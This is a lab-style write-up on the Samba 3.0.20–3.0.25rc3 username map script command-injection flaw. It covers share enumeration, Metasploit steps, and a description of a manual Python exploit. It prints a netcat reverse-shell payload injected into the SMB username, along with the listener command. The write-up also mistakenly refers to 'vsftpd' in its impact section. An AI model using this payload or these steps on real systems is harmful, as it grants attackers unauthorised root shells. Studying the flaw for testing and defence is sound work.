




# smbd 3.X - 4.X

## Introduction

- The samba daemon provides the Active Directory services and file and print services to SMB clients. The smbd daemon provides the file and print services to SMB clients.
- Port 139: SMB originally ran on top of NetBIOS using port 139. NetBIOS is an older transport layer that allows Windows computers to talk to each other on the same network.
- Port 445: Later versions of SMB (after Windows 2000) began to use port 445 on top of a TCP stack.

## Enumeration

- We can list the shared directories using-
	- `smbclient -L //IP -U%`
		- -L: Lists the shares
		- -U%: Avoid asking for password



- As we can see that there are a lot of shared directories here, most of which are generated by the system and is not meant to be accessed ([Read more here](https://learn.microsoft.com/en-us/troubleshoot/windows-server/networking/remove-administrative-shares#introduction))
- But we can access the `tmp` share using:
	- `smbclient //IP/tmp -U%`, syntax of this command is pretty straightforward.
- And now, we can run commands on the server.



- However, this share does not reveal any useful information.

## Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution

- Searching more about the version of smbd, I found that it is vulnerable to `Command Execution` if the username map script option is enabled in `smb.conf` file (smbd configuration file).
	- Samba's username map feature allows the mapping of usernames from client requests to different usernames on the server.This can be particularly useful in environments where users have different usernames on different systems.
	- For example, a user might have one username on a Windows client and a different username on a Unix or Linux server running Samba. The username map feature enables these users to access resources on the Samba server without needing to maintain identical usernames across systems.
	- The username map script option in Samba is used to specify a script that Samba will call to determine the mapping of a username.
	- This option provides a dynamic way to map usernames by running an external script, which can be more flexible than static mappings defined in a username map file.
	- The way this works is that when a user attempts to authenticate, Samba calls the specified script with the username as an argument. The script then returns the mapped username that Samba should use for that session. 
- Samba versions 3.0.20 through 3.0.25rc3 allows a command execution vulnerability when using the non-default `username map script` configuration option. By specifying a `username containing shell meta characters`, attackers can execute arbitrary commands. 
- No authentication is needed to exploit this vulnerability since this option is used to map usernames prior to authentication.

### Proof of Concept

- This vulnerability can be exploited either through Metasploit's `exploit/multi/samba/usermap_script` exploit or a manually crafted script.
- Since this exploit requires using `shell meta characters`, it is difficult (though not impossible) to exploit it manually using tools like `smbclient` through a shell.

- Metasploit Exploitation
	- Start metasploit using:
		- `msfconsole`
	- Using the exploit/multi/samba/usermap_script exploit:
		- `use exploit/multi/samba/usermap_script`
	- Viewing the required options for exploitation:
		- `show options`

	

	- The only 2 required options is `RHOSTS` which is the target IP.
		- `set RHOSTS IP_ADDRESS`
	- Run the exploit using:
		- `exploit` or `run`

	

	- As we can see, we got a shell as root and we are able to run commands.

- Script Exploitation
	- I manually created a [python script](./scripts/exploit.py) to spawn a shell. Here is how it works
		- Reverse Listener: This scripts assumes that the attacker is already listening on the supplied port. For eg. using `nc -lnvp 9001`
    	- Imports: The script uses the smb.SMBConnection for SMB communication and sys for accessing command-line arguments.
    	- Command-Line Arguments: Checks if the target IP and listener port are provided; if not, it prints usage instructions and exits.
    	- Variable Setup: Extracts the listener port and target IP from command-line arguments. 
    	- Payload: ``` `nc -c /bin/bash 192.168.1.6 {port}` ``` Constructs a payload using nc (netcat) to open a reverse shell to the attacker's machine, embedding this payload in the username variable. You can replace this payload with your own if you want. The main thing here to notice is that the payload has to be enclosed within backticks [``].
    	- SMB Connection: Attempts to establish an SMB connection with the target using the crafted username as payload. It uses port 139, commonly associated with SMB services.
    	- Exception Handling: Catches and prints any errors encountered during the attempt to connect.
    	- Cleanup: Closes the SMB connection and prints a success message, indicating the script's completion.
    - Using the exploit script
    	- Listening on port 9001 using on another terminal window
    		- `nc -lnvp 9001`
    	- Running the script
    		- `python3 exploit.py 192.168.1.6 9001`

    	

    - As we can see, we got a shell as root and we are able to run commands.

### Impact Analysis

- This vulnerability has Remote Code Execution [RCE] exploit and allows full access of the system as the root user that was used to configure the vsftpd service on the system.
- The attacker can easily pretend to be the original user and modify/harm the system files.
- Therefore, the impact level of this vulnerability is high.

## Patches and Updates:

- The developers of smbd responded to this vulnerability and released newer versions of the software with security patches and fixes.
- All users were advised to update to the latest version as soon as possible to protect their servers from exploitation.

## Mitigations

- Change the default port (139) to a non-standard port to reduce the risk of automated attacks.
- Restrict access to known IP addresses or ranges through firewall rules or smbd configuration.
- Regularly update smbd server software to ensure all security patches are applied.
- Set up services as non-root user in a sandbox or isolated environment.

## Conclusion

- The samba daemon (smbd) provides file and print services to SMB clients, utilizing ports 139 and 445 for communication. Enumeration techniques, such as using smbclient, can reveal shared directories, including a vulnerable tmp share that doesn't require a password for access.
- A significant vulnerability in Samba versions 3.0.20 through 3.0.25rc3 allows for command execution via the username map script option in the smb.conf file. This vulnerability, which does not require authentication to exploit, can lead to full system access as the root user by injecting shell meta characters into the username.
- Exploitation of this vulnerability can be achieved through tools like Metasploit or manually crafted scripts, allowing attackers to gain a root shell on the affected system. The impact of this vulnerability is high due to the potential for remote code execution and system compromise.
- To mitigate this issue, it's recommended to update to the latest version of smbd, change the default samba port, limit access to known IPs, and regularly apply security patches.

## References

- https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/samba/usermap_script.rb
- https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/multi/samba/usermap_script
- https://www.exploit-db.com/exploits/16320
- https://github.com/v1nc3-source/Samba_3.x_4.x_exploit
